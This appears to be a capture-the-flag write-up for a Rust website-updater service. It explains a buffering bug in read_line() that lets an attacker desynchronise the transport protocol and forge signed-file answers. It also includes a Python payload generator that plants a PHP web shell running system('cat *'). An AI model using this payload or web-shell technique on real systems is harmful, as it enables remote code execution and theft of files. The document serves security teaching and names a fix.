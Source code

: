 # The Startup Service

The service is an engine for updating the content of dynamic website. The content can be download from any untrusted mirror-like site, but its authencity is checked using Ed25519 digital signature scheme.

The service is written in Rust. The site that updated is a usual PHP site.

There are two main parts in the updater:

1. The client handler that gets a manifest and its signature from the client, creates a task, downloads files and checks its signatures. The manifest is a json-data, that describes files and their hashsums. 
The example of manifest:
```
{
    "links": [
        {"url": "http://mirror/wyjzmw.php", "checksum": "32bfce7a147d2fb0c87ff234c2848a37"},
        {"url": "http://mirror/JhXY.php", "checksum": "d55ec508be338092ab591f3d7e4ab929"}
    ]
}
```

2. Transport handlers that download a file, compute hashsums and send that data to the client handler. Supported transports are HTTP and HTTP/2. The handlers are launched by the client handler as programs, the communication between them is done by using standard I/O streams: stdin and stdout.

## The Protocol Between the Client Handler and the Transport Handler ##

1. The client handler sends an url to download as a line to stdin of transport handler.
2. The transport handler gets the data and sends an about it to the stdout in the following format:
```
Url: http://<url>
Success: [true or false]
Hashsum: <hashsum>
Content-Length: <integer>
<data>
```
3. Go to step 1.

On the program level the updater communicates with the transport handler using the AsyncBufferedReadStream class. It has methods *read_line()* and *read(n)* to get next line and next data chunk. Also it mantains an internal buffer of length 1024 to store the extra data readed from the socket.

# The Vulnerability #

The *read_line()* can never return the data that is bigger than buffer. If the line is longer then 1024 bytes, the first 1024 bytes are returned as single line, but the rest of the data is returned as another line. Moreover, if the several lines are read with a single syscall, the last line can be truncated. That can be used to unsynchronize the protocol and inject false answers to the client handler request that contains arbitrary data with arbitrary checksums.

This allows to make the client hadler save the PHP-file with content provided by attacker, effectively giving an RCE.

# The Exploitation #

It is supposed that the attacker has a manifest and knows the digital signature of some innocent data. Both can be obtained from the checker using a sniffer

To exploit the vulnerability the attacker needs a way to inject long strings to the protocol. It controls the URL host part and data. The one way how it can be done is to provide the hostname into the following format: <host>:<000000><port>, where <000000> is arbitrary number of "0" characters. That port will be interpreted as usual number.

Here is a code to generate the payload, that should be send as an answer on HTTP or HTTP/2 request:

```python
MYIP = "10.60.30.1"
MYPORT = "0" * (921-len(MYIP)) + "4000"

FAKE_PHP = br"""<?php if($_GET["key"]=="KnfSM")system("cat *")?>"""

PAYLOAD = b"""AAAAAA
Url: http://%s:%s/JhXY.php
Success: true
Hashsum: d55ec508be338092ab591f3d7e4ab929\n\n\n\n\n\n\n\n\n\n
Content-Length: %d
%s""" % (MYIP.encode(), MYPORT.encode(), len(FAKE_PHP), FAKE_PHP)

ANS = b"""HTTP/1.1 200 OK
Content-Length: %d

%s?>""" % (len(PAYLOAD), PAYLOAD)
```

###How it works?###

On the first request this answer is passed from the transport handler to the client handler:

```
Url http://10.60.30.1:000000...04000/somename.php
Success: true
Hashsum: d55ec508be338092ab591f3d7e4ab929
Content-Length: 1000
<data>
```

The client client handler interprets it as

```
Url http://10.60.30.1:000000...04000/somename.php
Success: true
Hashsum: d55ec508be338092ab591f3d7e4ab929
Content-Length: 10
00
<data>
```

So the first two zeroes and few first bytes of data are interpreted as an answer on first request. So the further data will be interpreted by client handler as the next request answer. The attacker is injecting fake hashsum and fake data there:

```
Url: http://%s:%s/JhXY.php
Success: true
Hashsum: d55ec508be338092ab591f3d7e4ab929
Content-Length: <len>
<?php if($_GET["key"]=="KnfSM")system("cat *")?>
```

The full sploit can be found at [/exploits/startup/startup_sploit.py](../exploits/startup/startup_sploit.py).

**The fix.** To fix the vuln the buffering algorithm should be modified to work with longer strings.

